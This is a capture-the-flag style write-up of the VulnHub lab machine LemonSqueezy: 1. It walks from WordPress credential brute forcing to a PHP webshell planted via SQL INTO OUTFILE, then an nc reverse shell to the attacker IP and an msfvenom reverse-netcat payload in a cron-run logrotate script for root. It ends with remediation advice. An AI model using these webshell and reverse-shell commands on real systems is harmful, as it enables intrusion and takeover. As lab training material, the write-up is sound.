




# LemonSqueezy: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.105 (host-only) |
| **Difficulty** | Easy–Intermediate |
| **OS** | Linux |
| **Root Flag** | /root/root.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/lemonsqueezy-1,473/) |

## Attack Summary

`nmap` → `dirb` (finds `/wordpress`, `/phpmyadmin`) → `wpscan` users (orange, lemon) → brute force → `orange:ginger` → WordPress exposes phpMyAdmin password → SQL `INTO OUTFILE` → `backdoor.php` RCE → nc reverse shell → `LinEnum` finds writable `/etc/logrotate.d/` + cron → msfvenom payload in logrotate → root

## Methodology

1. Network discovery and port scan
2. Web enumeration (dirb, wpscan)
3. WordPress credential brute force
4. phpMyAdmin access → SQL webshell
5. Reverse shell via backdoor.php
6. LinEnum → cron writable logrotate → root

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.105
```

Open port: **80** (HTTP)


---

## Step 2: Web Enumeration

```bash
dirb http://192.168.1.105
```

Found:
- `/wordpress` — WordPress installation
- `/phpmyadmin` — phpMyAdmin panel

Add domain to `/etc/hosts` if needed.

---

## Step 3: WordPress User Enumeration and Brute Force

```bash
wpscan --url http://192.168.1.105/wordpress -e u
```

Users found: **orange**, **lemon**

```bash
wpscan --url http://192.168.1.105/wordpress -U orange -P /usr/share/wordlists/rockyou.txt
```

Credentials: **orange : ginger**



---

## Step 4: phpMyAdmin — SQL Webshell

Login to WordPress as `orange`. Navigate to an editable post — find a phpMyAdmin password stored in the content.

Login to phpMyAdmin with found credentials. In the WordPress database, run:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/wordpress/backdoor.php"
```

Verify RCE:
```
http://192.168.1.105/wordpress/backdoor.php?cmd=whoami
```



---

## Step 5: Reverse Shell

Start listener:
```bash
nc -lvp 1234
```

Trigger netcat reverse shell via backdoor:
```
http://192.168.1.105/wordpress/backdoor.php?cmd=nc+-e+/bin/bash+192.168.1.112+1234
```

Stabilize:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cat /var/www/html/wordpress/user.txt
```



---

## Step 6: LinEnum and Cron Enumeration

```bash
cd /var/www/html/wordpress
wget http://192.168.1.112:8000/LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
cat /etc/crontab
ls -la /etc/logrotate.d/
```

Findings:
- A cron job runs every **2 minutes** as root
- `/etc/logrotate.d/logrotate` is **world-writable**

---

## Step 7: Logrotate Privilege Escalation

Generate a netcat payload:
```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.1.112 lport=4444 R
```

Overwrite the logrotate script with the payload:
```bash
echo '<msfvenom_payload_here>' > /etc/logrotate.d/logrotate
```

Start listener on attacker:
```bash
nc -lvp 4444
```

Wait up to 2 minutes for cron to execute. Root shell arrives.

```bash
id
# uid=0(root)
cd /root && cat root.txt
```



---

## Lessons Learned

1. **Credentials in WordPress posts** — sensitive data should never be stored in CMS content; use a secrets manager
2. **phpMyAdmin with SQL INTO OUTFILE** — enforce `secure_file_priv` in MySQL; restrict phpMyAdmin to localhost
3. **World-writable cron-executed scripts** — cron scripts must be owned and writable only by root (mode 644 or 755)
4. **WPScan user enumeration + rockyou** — WordPress sites need strong passwords and login throttling

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| Weak WordPress password | Enforce strong passwords; add login attempt limits |
| phpMyAdmin INTO OUTFILE | Set `secure_file_priv` in MySQL; restrict phpMyAdmin access |
| World-writable /etc/logrotate.d/ | `chmod 644 /etc/logrotate.d/*`, owned by root |
| Credentials stored in CMS posts | Audit CMS content; use environment variables or Vault |
